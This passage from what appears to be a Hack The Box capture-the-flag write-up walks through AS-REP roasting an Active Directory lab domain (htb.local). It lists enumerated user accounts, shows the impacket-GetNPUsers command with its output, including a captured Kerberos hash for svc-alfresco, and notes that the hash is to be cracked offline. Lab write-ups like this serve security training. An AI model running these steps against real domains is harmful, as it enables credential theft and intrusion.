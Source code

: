 ```
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

* Throw these users into a users wordlist and run it against GetNPUsers to see if any accounts are susceptible to AS-REPRoasting

### AS-REPRoasting w/ GetNPUsers

```
impacket-GetNPUsers htb.local/ -no-pass -usersfile users

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:07e1003d1b05ce8f957d91f560fbf31a$30d4426acca99bd7b1d7083f0a222fb448f70ed15150561da58acba6350b06e5c4c3dbaa76338251e66e24006cf376bdbe8509a31bce88944a1a4cf9ee9da4fc5c89bffc8169307860e404f32e286221e821ff98fa830ee59ebf163b38d1ab3c85e7fcda52da5e3a2f0a05e3ba6eebe008add189992a85f983eb3b7ca0084b1aa211d3a6dde8e89072efbb60d54e4ea0574bebc640b7998ad84cd0f587e2b22573f4ce078434d19a876435ef1b6a3b6773ea4b7efc6f42943179aa11f33417cc08cef2a2d37a02e7f50e3fd55fdd95e78f25dede9af9c40041e3000278928cbf7608aa624358
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

* We get a hit on the account svc-alfresco
* Time to crack this hash

## Exploitation

### AS-REPRoasting

Since the user **svc\_alfresco** has Kerberos Pre-Authentication disabled, we are able to request a hash from the DC.

* We can then take this hash offline and crack it
